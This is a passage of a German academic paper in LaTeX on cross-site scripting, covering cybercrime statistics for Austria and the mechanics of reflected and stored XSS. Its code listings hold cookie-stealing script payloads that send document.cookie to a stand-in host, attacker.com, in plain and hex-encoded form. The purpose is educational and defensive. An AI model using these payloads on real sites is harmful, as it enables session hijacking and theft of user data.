\section{Einleitung}
\label{section:Einleitung}

Laut der Business Data Plattform Statista\footnote{https://de.statista.com/themen/42/internet/} nutzten im Jahr 2018 rund 3,9 Milliarden Personen weltweit das Internet. Für das Jahr 2021 wurde prognostiziert, dass die Zahl der Internetnutzenden bis auf rund 4,14 Milliarden ansteigen wird. Im gleichen Ausmaß nahmen auch Cyberattacken zu.

Laut Polizeilicher Kriminalstatistik von 2019 ist die Internetkriminalität in Österreich mit 28.439 Anzeigen um rund 45 Prozent gestiegen. Über die Hälfte der Anzeigen in diesem Bereich betrafen den Internetbetrug. Gleichzeitig ist hier die Aufklärungsquote mit knapp 38 Prozent im Vergleich zur durchschnittlichen Aufklärungsquote von 52,5\% weit niedriger. Während der Pandemie kam es außerdem zu einem Anstieg der Homeoffices, die Kommunikation sowohl intern als auch extern und mit Kundinnen und Kunden verlagerte sich verstärkt in den digitalen Bereich.  Der Leiter des Bundesministeriums für Inneres, Karl Nehammer, erklärte, dass 2020 die Zahl der Einbrüche Corona-bedingt rasant gesunken sei, Internet- und Betrugsdelikte dagegen massiv gestiegen seien.\footnote{https://www.derstandard.at/story/2000117361215/internetbetrug-steigt-vor-allem-mitten-in-der-pandemie}
Die globale Pandemie von COVID-19 ist daher nicht nur ein ernstes Gesundheitsproblem, sondern auch ein Cybersicherheitsrisiko \autocite[12-17]{bundeskriminalamt2020}.

Die aktuelle KPMG Studie „Cyber Security in Österreich“ von März 2020 zeigt, dass innerhalb von zwei Jahren 80\% der Unternehmen von Cyberattacken betroffen waren. In den letzten 12 Monate kam es bei 57\% der Befragten zu Sicherheitsvorfällen. Gerade in der Webentwicklung ist es daher wichtig, schon von vorneherein präventiv solchen Cyberattacken entgegen zu wirken. Da der Vulnerability Report von 2019\footnote{https://www.ptsecurity.com/ww-en/analytics/web-vulnerabilities-2020/} zeigt, dass Cross- Site- Scripting (XSS) mit 53\% schon als zweithäufigste Schwachstelle angeführt ist, beschäftigt sich diese Arbeit mit dem Erkennen und Verhindern von XSS und den Sicherheitslücken dahingehend in Web- Anwendungen \autocite[10-13]{kpmg2020}.

Die Arbeit ist in drei Teilen aufgebaut. Der erste Teil beinhaltet die Begriffsdefinition und die Funktionsweise von XSS, sowie die Statistiken zur Häufigkeit solcher Cyberattacken mit dem Schwerpunkt auf Österreich und den wirtschaftlichen Folgen. Im zweiten Teil werden die verschiedenen Angriffsformen und deren Auswirkungen detailliert und mit praxisnahen Beispielen beschrieben. Der dritte Teil der Arbeit beleuchtet die gängigsten Abwehr- und Schutzmechanismen und Tools zur Analyse von Sicherheitslücken.


% Begriffsdefinition
\section{Internetkriminalität - Cross-Site-Scripting}
\label{section:cyber_criminality-Cross-Site-Scripting}

Nach der Definition des \textcite[16]{bundeskriminalamt2020} wird Internetkriminalität in zwei Bereiche unterteilt: Im weiteren Sinne werden unter Cybercrime alle Straftaten verstanden, bei denen die „Informations- und Kommunikationstechnik zur Planung, Vorbereitung und Ausführung von herkömmlichen Kriminaldelikten eingesetzt wird“. Bei Cybercrime im engeren Sinne werden Angriffe auf Daten oder Computersysteme unter Ausnutzung der Informations- und Kommunikationstechnik begangen, sie sind gegen die Netzwerke selbst oder gegen Geräte, Dienste oder Daten in den Netzwerken gerichtet. Cyberkriminalität schließt alle Straftaten mit ein, die mit den Techniken des Internets begangen werden oder auf dem Internet basieren. Da mittlerweile beinahe jede Straftat der Cyberkriminalität im Kontext mit der Verwendung des Internets steht, steht die Internetkriminalität schwerpunktmäßig im Fokus der Cyberkriminalität. Die folgende Statistik bildet die Anzahl der Opfer von Cybercrime in ausgewählten Ländern weltweit im Jahr 2019 ab.\footnote{https://de.statista.com/statistik/daten/studie/802721/umfrage/anzahl-der-opfer-von-cybercrime-nach-laendern-weltweit/}

\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/cybercrime_world_2019.png}
	\caption[Cyberkriminalität in ausgewählten Ländern weltweit 2019]
	{Cyberkriminalität in ausgewählten Ländern weltweit 2019 (in Millionen)}
\end{figure}

Cybersicherheitsfirmen schätzen die Schäden durch Cyberkriminalität auf weltweit um die  500 bis 600 Milliarden Dollar im Jahr

\subsection{Internetkriminalität Österreich}
\label{subsection:cyber_criminality_austria}

In Österreich stieg die Internetkriminalität 2019 um knapp 45 Prozent auf 28.439 Straftaten, 2018 waren es 19.627 Anzeigen, 2010 noch 4.223. Die Aufklärungsquote sank analog dazu in den letzten zehn Jahren und liegt derzeit nur mehr bei 35,8 Prozent (2018: 37,4 Prozent, 2010: 55,3 Prozent) so \textcite[16-18]{bundeskriminalamt2020}. Die nachfolgenden Grafiken zeigen die Verteilung der Straftaten im weiterem und im engeren Sinn.

% IMAGE Crime Austria 2009-2019
\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/bmi/Entwicklung_austria-2009-2019.png}
	\caption[Entwicklung der Internetkriminalität in Österreich 2010 bis 2019]
	{Entwicklung der Internetkriminalität in Österreich 2010 bis 2019 \autocite[16]{bundeskriminalamt2020}}
\end{figure}

\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/bmi/Entwicklung_cybercrime_austria-2009-2019.png}
	\caption[Entwicklung von Cybercrime im engeren Sinn in Österreich 2010 bis 2019]
	{Entwicklung von Cybercrime im engeren Sinn in Österreich 2010 bis 2019 \autocite[17]{bundeskriminalamt2020}}
\end{figure}

\subsection{Schäden durch Cross-Site-Scripting}
\label{subsection:damage_from_xss}

Der aktuelle Report von Accenture\footnote{https://www.accenture.com} ``Securing the Digital Economy: Reinventing the Internet for Trust'' berechnete, dass, weltweit betrachtet, Unternehmen bis 2023 durch Cyber-Angriffe finanzielle Einbußen in Höhe von rund 5,2 Billionen Dollar zu erwarten hätten. 2018 wurden dafür 1700 Führungskräfte aus 13 Ländern mit einem Jahresumsatz von mindestens einer Milliarde Dollar befragt \autocite[16]{abbosh2019}.

\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/Accenture.png}
	\caption[The Cost of Insecurity]
	{The Cost of Insecurity \autocite[17]{abbosh2019}}
\end{figure}

Zusätzlich erklären laut \textcite[17]{abbosh2019} in der Studie 59\% der Unternehmen, dass das Internet in Bezug auf die Cybersicherheit zunehmend instabiler werde, und sie sich nicht sicher seien, wie sie angemessen reagieren sollen. 86\% glauben, dass es neuere Ansätze brauchen würde, um die Cybersicherheit in ihren Unternehmen auf einen höheren Level zu bringen.  Die Bereitschaft etwas zu unternehmen und in Cybersicherheit zu investieren, ist also vorhanden, es herrscht jedoch eine große Unsicherheit darüber, in welche Bereiche sinnvoll investiert werden sollte.

Eine aktuelle Studie des Kuratorium für Verkehrssicherheit (KFV), bei der 500 österreichische Unternehmen untersucht wurden, zeigt, dass 80 Prozent der befragten Klein- und Mittelunternehmen in den letzten Jahren zum Ziel von Cyberangriffen wurden. Pro Fall betrugen die wirtschaftlichen Schäden bis zu 150.000 Euro \autocite{kfv2019}.

\subsection{Sicherheitslücken im Netz - Verteilung}
\label{subsection:securityrisks_in_the_web}

Laut dem OWASP Report stellt sich die Verteilung der größten Schwachstellen in Bezug auf das Web wie in der anschließenden Grafik von PT- Security von 2019 (siehe Abbildung \ref{figure:most-common-owasp-top10}) dar. Für die Rangliste bei OWASP wurden über 500.000 Schwachstellen in Webanwendungen in mehreren hundert Unternehmen und Tausenden Applikationen beobachtet.\footnote{https://sucuri.net/guides/owasp-top-10-security-vulnerabilities-2020/}

Mehr als die Hälfte der Schwachstellen zeigen sich in der Möglichkeit einen Cross- Site Scripting Angriff vorzunehmen. Diese Art der Cyberattacken, bzw. Internetkriminalität soll in den folgenden Kapiteln näher beleuchtet werden.

\begin{figure*}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/most-common-owasp-top10-vulnerabilities.jpg}
	\caption[Häufigsten OWASP Top 10-Schwachstellen]
	{Häufigsten OWASP Top 10-Schwachstellen (Prozentsatz der Webanwendungen) \autocite{ptsecurity2019}}
	\label{figure:most-common-owasp-top10}
\end{figure*}

\section{Cross-Site-Scripting}
\label{section:cross-site-scripting}

Diese Arbeit beschäftigt sich mit der zweithäufigsten Sicherheitslücke, dem Cross-Site-Scripting, da es die Voraussetzungen für weitere Attacken, wie Spam-, Phishing- oder auch DDoS-Attacken schaffen kann. In den nächsten Punkten soll aufgezeigt werden, was Cross-Site-Scripting bedeutet, wie es funktioniert, welche Arten von Attacken es gibt und wie gefährlich die Angriffe sind. Danach werden mögliche Schutz- und präventive Maßnahmen diskutiert \autocite{ptsecurity2019}.

\subsection{Begriffsdefinition Cross-Site-Scripting (XSS)}
\label{subsection:definition_Cross-Site-Scripting_(XSS)}

Cross Site Scripting beschreibt das Ausführen von Skriptbefehlen über unterschiedliche Webseiten hinweg. Die Abkürzung dafür lautet XSS, da CSS bereits als Kürzel für Cascading Stylesheets vergeben war. Wenn ein Nutzer dazu gebracht wird, schadhaften JavaScript Code, welcher zuvor von einem
Angreifenden erstellt worden ist, auf sein System herunterzuladen, wird diese „technische Ausbeutung“ Cross-Site Scripting (XSS) Attake genannt \autocite[2]{kirda2009}.
Laut \textcite{kachel2008} besteht XSS einfach gesagt darin, dass ein Angreifender, Skript-Codes in variable Bereiche auf einer Website oder in einer Internetanwendung an einer Stelle einfügt, an der das normalerweise nicht möglich sein sollte.  Im Zuge des Cross-Site-Scripting werden Sicherheitslücken in Websites gezielt ausgenutzt, bildlich gesprochen verhält sich XSS wie ein blinder Passagier, der mit dem jeweiligen Fahrzeug seine eigenen Ziele erreichen will.


\subsection{Funktionsweise von XSS}
\label{subsection:functionality_of_XSS}

Durch eine Sicherheitslücke der Webanwendung auf Seiten des Clients oder des Servers gelingt es dem Angreifenden, seinen Schadcode in eine scheinbar vertrauenswürdige Umgebung einzubetten. Dazu wird vor allem JavaScript verwendet, da JavaScript unter den clientseitigen Skriptsprachen die größte Verbreitung hat. Es handelt sich dabei weniger um ein Sicherheitsproblem innerhalb von JavaScript, XSS nutzt die Sicherheitslücke in fehlerhaften Webanwendungen, um Daten auch aus nicht vertrauenswürdigen Quellen (z.B. aus Formulareingaben oder HTTP-Parametern) ungefiltert ins HTML einbauen. Das ermöglicht unter Anderem das Ändern der gesamten Seitenstruktur, das Installieren zusätzlicher JavaScript-Codes, das Erzeugen beliebiger HTML-Elemente, das Umleiten von Formularen und Links, das Auslesen von Authentifizierungs-Daten, das Senden und Empfangen von Daten und das Auslesen der Tastenanschläge \autocite[16]{wolf2012}.

Wenn Webanwendungen (Support Chats beispielsweise) eingegebene Nutzerdaten ohne Überprüfung auf eventuell vorhandenen Skriptcodes an den Webbrowser weiterleiten, kann XSS dazu führen, dass schädlichen Skripte auf den Server gelangen. Von dort aus ist es möglich, dass die schädlichen Codes dann auch bei den betroffenen Clients landen. XSS kann außerdem harmlose Formulare (Kontaktformulare, Gästebücher) durch manipulierte Formulare ersetzen. Diese Formulare sammeln dann die Daten der Seitenbesucher. Manche Betreiber fühlen sich durch eine SSL-Verschlüsselung davor geschützt, wenn jedoch das Formular manipuliert ist, ist das nicht der Fall, da bei HTTPS lediglich die Verbindung zwischen Server und Client verschlüsselt wird. Wenn allerdings das Formular selbst manipuliert ist, hilft in diesem Fall auch eine verschlüsselte Verbindung nichts \autocite{schuring2017}.

\subsection{Angriffsformen und deren Auswirkungen}
\label{subsection:attack_forms_and_their_impact}

Wie bereits im vorigen Kapitel erwähnt, ist XSS für sich betrachtet ein Angriff auf den Client-seitigen Webbrowser, welcher den tatsächlichen Schaden aber auf der Server-Seite verursacht. Für die Ausnutzung von XSS- Schwachstellen in den Web-Anwendungen injiziert ein Angreifender bildlich gesprochen ein „bösartiges“ JavaScript, das, wie als „gutartiger“ Bestandteil der Website erscheint und auch auf der originalen Domain ausgeführt wird. Durch diese Täuschung wird es vom Nutzer meist ohne Argwohn verwendet \autocite[5]{gupta2017}. Vereinfacht laufen XSS-Attacken immer gleich ab, der schädliche Code wird dort, wo Nutzereingaben erwartet werden eingeschleust. Als Teil der Antwort des Servers wird der schädliche Code dann im Browser des Nutzers, ausgeführt. Und genau dort wird dann auch der jeweilige Schaden angerichtet, also bspw. Nutzerdaten gestohlen.

Die XSS Attacken reflected und stored werden auf der Server-Seite ausgeführt. Dies passiert immer dann, wenn eine Anfrage an den infizierten Server geschickt wird. DOM-based XSS Attacken werden dahingegen auf der Client-Seite, also im Web-Browser ausgeführt. In allen Fällen sind Angreifer in der Lage sensible Daten von den Opfern zu stehlen \autocite{hydara2015a}.

Auch laut \textcite{mahmoud2017} ist der Ablauf, um einen solchen Code in eine Anwendung injizieren zu können stets gleich.

\begin{enumerate}
	\item Der Angreifer muss eine Schwachstelle in der Anwendung finden, um seinen schadhaften Code in die Anwendung zu bringen und somit in weiterem Verlauf sensible Daten von seinem Opfer stehlen zu können.
	\item Das Opfer besucht die beschädigte Anwendung.
	\item Die Anwendung sendet eine Anfrage mit dem fehlerhaften
	Code im Body an einen Server.
	\item Wenn das Skript im Web-Browser des Opfers ausgeführt
	wird, kann der Angreifer diverse persönliche Informationen
	stehlen.
\end{enumerate}

Die Angriffsformen werden nach der Art ihrer Durchführung und Auswirkung unterschieden.  Grundsätzlich wir meist grob nach zwei Kategorien in reflektiertes, nicht-persistentes XSS oder stored, bzw. persistentes XSS unterschieden. Die dritte weniger bekannte Art ist die Dom- basierte Attacke, auch lokaler XSS- Angriff genannt. Dieser Arbeit liegt die Unterscheidung der OWASP zugrunde, die die Angriffe in reflected, stored und DOM-based unterteilt.

\subsubsection{reflected XSS- Reflektieres XSS}
\label{subsubsection:reflected_XSS}

Die Angriffsform liegt schon im Namen, Eingaben, wie beispielsweise Suchanfragen, werden vom Server reflektiert. Das bedeutet, dass die Seite beispielsweise nach der Eingabe von \verb+Hallo+ im Suchfeld ``Sie suchten nach Hallo'' ausgibt. Alles, was der User in das Suchfeld eingibt, wird zum Teil der Antwort des Servers und genau das nutzen die Angreifenden aus. Wird nun statt eines Suchbegriffs ein schädliches Skript eingegeben und gesendet, kann die Seite so manipuliert werden, dass sie diesen schlussendlich ausführt. Da der Schadcode nur vorübergehend, also temporär bei der jeweiligen Seite eingeschleust, aber nicht gespeichert wird, wird diese Angriffsart als nicht- persistent- also nicht dauerhaft bezeichnet.

% IMAGE refelcted XSS
\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/medium/2_reflected_xss.png}
	\caption[Der Prozess des reflected XSS-Angriffs]
	{Der Prozess des reflected XSS-Angriffs \textcite{makarem2018a}}
\end{figure}

Eine reflected XSS Attacke ist im Vergleich zu einer stored XSS Attacke in diesem Sinne anders, als dass sie von einer Web-Anwendung reflektiert wird, und nicht dauerhaft ist. Bei so einem Angriff wird der schadhafte JavaScript Code etwa nur durch einen Link ausgelöst.
Um dies zu erreichen wird meist ein Link zu einer Web-Anwendung mit Schwachstellen erstellt, in welcher der schadhafte JavaScript Code in einer E-Mail oder in einem HTML form Element eingebunden wird. Um solche Schwachstelle in einer Web-Anwendung zu finden, wird beispielsweise in einem Suchfeld ausgeführt und untersucht, ob dieser JavaScript Code vom Web-Browser als solcher interpretiert und ausgeführt wird, oder nicht.
Wird diese Popup ausgeführt, der Skripttext in der URL angezeigt oder wird im Web-Browser auf die Seite verwiesen und ein not found zurückgegeben, weiß der Angreifer, dass diese Seite anfällig ist \autocite[125]{gupta2015a}.

Im nächsten Schritt erstellt er eine eigene URL und verpackt diese in einen Link, welcher in einem Forum oder einem sozialen Netzwerk geteilt wird. Obwohl die URL verdächtig ist, heißt es nicht, dass niemand diesen Link anklickt. Darüber hinaus kann ein Angreifer auch eine URL-Adresse erstellen, die ein Benutzer nicht direkt interpretieren kann. Der Angreifer wird also die Kodierungsschemata ausführen, um die ASCII-Zeichen in das Hexadezimalformat zu konvertieren, wie in Listing \ref{reflected_xss_example} gezeigt. Nun kann das Opfer die URL nicht interpretieren, die im Hexadezimalformat erstellt wurde, und es ist wahrscheinlicher, dass der Angreifer diese URL besuchen kann \autocite[125]{gupta2015a}.

\begin{lstlisting}[caption={Beispiel für reflected XSS Attacke},label=reflected_xss_example]
/*
	Der Angreifer erstellt einen besonders hinterhaeltigen Schadcode und platziert ihn als Teil einer Suchanfrage.
*/

Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
	<tr> Table of Search Results
	...
	</tr>
</html>

GET "http://attacker.com/?cookie=user-cookie"

/*
	Alternative Variante mit kodierter URL
*/
Hey user, check this out: "http://website.com/search?keyword=3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%3d%2019%68%74%74%70%3a%2f%2f%61%74%74%61%63%6b%65%72%2e%63%6f%6d%2f%3f%63%6f%6f%6b%69%65%3d%2019%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3c%2f%73%63%72%69%70%74%3e"
\end{lstlisting}


Wenn auch nur einer von tausenden Empfänger dieser E-Mail den Link klickt, ist Bob, der Täter erfolgreich. Alice, die Nutzerin wird auf die Forumseite weitergeleitet, auf der der schadhafte JavaScript Code dann vom Web-Browser ausgeführt wird.

\subsubsection{stored XSS – persistentes XSS}
\label{subsubsection:stored_XSS}

Beim stored bzw. persistenten, sagt der Name schon aus wie es funtioniert es wird gespeichert und ist beständig. Bei dieser Art von XSS werden die schädlichen Skripte auf dem Webserver gespeichert und bei jedem Aufruf durch einen Client ausgeliefert. Zu diesem Zweck werden solche Webanwendungen für den Angriff ausgewählt, die Benutzerdaten serverseitig speichern und anschließend ohne Überprüfung oder Codierung ausgeben. Besonders anfällig für stored XSS sind Gästebücher, Blogs und Foren. Um eine stored XSS Attacke, oder auch persistente bzw. dauerhafte XSS Attacke erfolgreich ausführen zu können, müssen die Angreifenden zuerst eine Schwachstelle in einer Web-Anwendung finden, um dort ihren schadhaften JavaScript Code auf den Server laden zu können.
Um solche Schwachstellen zu finden, probiert Bob HTML tags wie beispielsweise \verb+<h1>Hello World!</h1>+ in etlichen Eingabefeldern wie Kommentar-, oder Suchfeldern aus. Wird dieser Tag vom Web-Browser als HTML Tag interpretiert, weiß Bob, dass er auf dieser Seite sein Skript platzieren kann. Hierzu fügt er anstatt eines \verb+h1 tags+, einen script tag in das Kommentarfeld ein.

% IMAGE stored XSS
\begin{figure}[ht]
	\centering
	
\includegraphics[width=1\linewidth]{images/medium/1_persistent_xss.png}
	\caption[Der Prozess des stored XSS-Angriffs]
	{Der Prozess des stored XSS-Angriffs \autocite{makarem2018b}}
\end{figure}

\begin{lstlisting}[caption={Beispiel für stored XSS Attacke},label=stored_xss_example]
POST "http://website/post-comment",
body{"<script>window.location='http://attacker.com/?cookie='+document.cookie</script>}


